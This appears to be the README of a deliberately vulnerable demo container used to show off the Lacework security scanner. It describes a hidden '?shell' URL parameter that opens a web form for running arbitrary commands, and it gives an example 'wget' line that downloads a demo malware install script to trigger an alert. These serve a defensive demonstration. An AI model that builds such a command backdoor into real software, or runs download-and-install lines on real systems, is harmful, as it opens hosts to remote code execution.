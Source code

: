 # Kili Demo-App

Simple web demo application with vulnerabilities due to outdated Alpine OS in Dockerfile.

The original image is based on a public hosted image and can be pulled like this:

```shell
docker pull ghcr.io/timarenz/lacework-demo-app:latest
```

When running this container make sure you map port `5000` (thats where the web app is listening on).

The container contains tools like `curl`, `wget`, `jq` and a full blown `bash` shell.

When accessing the application you see a single website and a random cocktail on the lower left side.
With every page load the app reads a random cocktail from `https://www.thecocktaildb.com` to simulate outgoing traffic to an external external host.

In addition if you load the page with the `?shell` parameter, like `http://<IPorFQDN>:5000/?shell` a small terminal icon will apear on the lower left.
Clicking this will open a form that allows you to run shell commands within the container to simluate a "RCE".

A simple example is running `wget  http://lwmalwaredemo.com/install-demo-1.sh` which triggers a critical alert in Lacework.

```shell
lw-scanner image evaluate ghcr.io/timarenz/lacework-demo-app latest --save
```

This gives you more visibility in the vulnerabilities view.

